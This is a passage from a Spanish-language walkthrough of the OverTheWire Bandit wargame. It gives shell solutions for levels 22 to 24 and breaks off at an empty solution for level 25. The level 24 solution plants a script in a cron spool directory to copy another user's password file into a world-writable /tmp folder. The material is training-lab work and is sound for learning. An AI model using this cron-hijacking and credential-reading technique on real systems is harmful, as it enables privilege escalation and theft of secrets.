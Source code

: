 **Solución:**   

```sh
ls -l /etc/cron.d  
cat /etc/cron.d/cronjob_bandit23  
cat /usr/bin/cronjob_bandit23.sh  
echo I am user bandit23 | md5sum | cut -d ' ' -f 1  
cat /tmp/8ca319486bfbbc3663ea0fbe81326349  
```  

### - Bandit Level 23 → Level 24   

LEVEL GOAL: A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.  

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…  

**Solución:**     

```sh
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/bandit
cd !$

touch script.sh && echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit/pass' > script.sh # ->> es para redirigir la contraseña a /tmp/bandit

chmod 777 -R /tmp/bandit

cp script.sh /var/spool/bandit24/foo/script.sh

watch -n 1 ls -la -->> para ejecutar el comando ls -la cada segundo
	o
ls -al

cat /tmp/bandit/pass
```  

LISTO !!  

### - Bandit Level 24 → Level 25   

LEVEL GOAL: A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  

You do not need to create new connections each time.  

**Solución:**     
